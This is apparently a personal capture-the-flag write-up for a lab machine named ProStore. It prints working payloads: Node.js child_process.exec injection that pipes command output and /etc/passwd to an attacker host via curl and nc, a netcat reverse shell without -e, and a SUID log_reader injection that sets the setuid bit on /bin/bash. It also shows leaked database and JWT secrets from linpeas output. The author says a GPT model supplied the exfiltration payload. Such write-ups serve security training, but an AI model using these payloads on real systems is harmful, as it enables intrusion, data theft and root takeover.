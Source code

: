 # ProStore

We start off by scanning network:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On port 500 we find this website:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I try to log in as admin with admin:admin

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Interesting error message maybe we can enumerate usernames by bruteforcing

But first i register and login with admin:admin and i add an item to my cart and go to checkout:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This is a pretty obvious foothold direction so i enter everything and capture the request with burp:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The only error i manage to pop is when i input a string in the captcha:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So while looking up at the error:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that it treats our input as code and does not find the variable so i need a way to call a function that is defined:

{% embed url="https://www.nodejs-security.com/blog/secure-javascript-coding-practices-against-command-injection-vulnerabilities" %}

so `child_process.exec` seems very unsecure since it does not avoid shell interpretation of arguments. Maybe we can exploit that by calling exec. Since this box is out of scope for OSCP i ask GPT, my bad skill issue

```
require('child_process').exec("whoami | curl -X POST -d @- http://ton-webhook.com");
```

Ok so i got stuck here for a bit, the webserver only allows requests on port 80:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('nc+192.168.49.59+80')</p></figcaption></figure>

The requests work on port 80 and 443 but is blocked anywhere else, after looking it up the target system or its network might have outbound filtering that **only allows traffic on ports 80 and 443**.

So now i am able to pipe the command injection to have some interesting output on my listener:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('cat+/etc/passwd|nc+192.168.49.59+443')</p></figcaption></figure>

Then i tried a basic reverse shell but got no response so obvious reason is that -e is blocked so i tried finding a `nc -e` bypass:

{% embed url="https://www.keuperict.nl/posts/security/2017/08/26/netcat-without-e/" %}

```
tail -n 0 -f /tmp/1 | /bin/sh| nc -nv 10.11.0.49 443 1> /tmp/1
```

and the redirect busted my command so the final payload i injected was:

```
tail -n 0 -f /tmp/1 | /bin/sh| nc -nv 10.11.0.49 443 1> /tmp/1
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption><p>require('child_process').exec('tail+-n+0+-f+/tmp/1+|+/bin/sh|+nc+-nv+192.168.49.59+443+1>+/tmp/1')</p></figcaption></figure>

Now i try and download linpeas

{% hint style="warning" %}
firewall blacklists connectiosn from ports ≠ 80 or 443 so i host my python server on port 80
{% endhint %}

So after running linpeas here is everything i found that seemed interesting for PE:

```sh
???????????? Searching root files in home dirs (limit 30)
/home/                                                                                                                                                                              
/home/observer/.bash_history
/root/


-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/write.ul (Unknown SGID binary)

-rwsr-xr-x 1 root root 20K Feb 13  2023 /usr/local/bin/log_reader (Unknown SUID binary!)

??? Possible private SSH keys were found!
/home/observer/app/backend/node_modules/dotenv/README.md


???????????? Analyzing Env Files (limit 70)
-rw-r--r-- 1 observer observer 247 Dec 23  2022 /home/observer/app/backend/.env                                                                                                     
APP_PORT=5000
DB_HOSTNAME="127.0.0.1"
DB_NAME="prostore_db"
DB_PASSWORD="d8491f5ddd9137cc3630a8a054b01cdf71110a62"
DB_PORT=5432
DB_USER="prostore"
JWT_SECRET="d148c461e7241a2c94727e17fa70b90f"
PASSWORD_HASH_SALT="a008e3dc8f8ec8a0a6e485b890d74d91"
```

I cleared most of the find except the write.ul and log reader:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and for the log reader:

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so i try to test what i can do with  this log reader:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

it does not seem to do anything :skull:

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

ok we're getting somewhere!!!

<figure><img src="../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

So it only reads log file... How could i guess that...

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Ok we are starting to have interesting errors:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

LETSGOOOOOOOOO

yeah so that was the easy way but it's interesting to try and get a shell since we can run command injections as root:

In this box i did something that i think i can abuse now:

{% content-ref url="../linux/rubydome.md" %}
[rubydome.md](../linux/rubydome.md)
{% endcontent-ref %}

```
/usr/local/bin/log_reader 'test.log|chmod +s /bin/bash'
```

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

My first beyond root

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
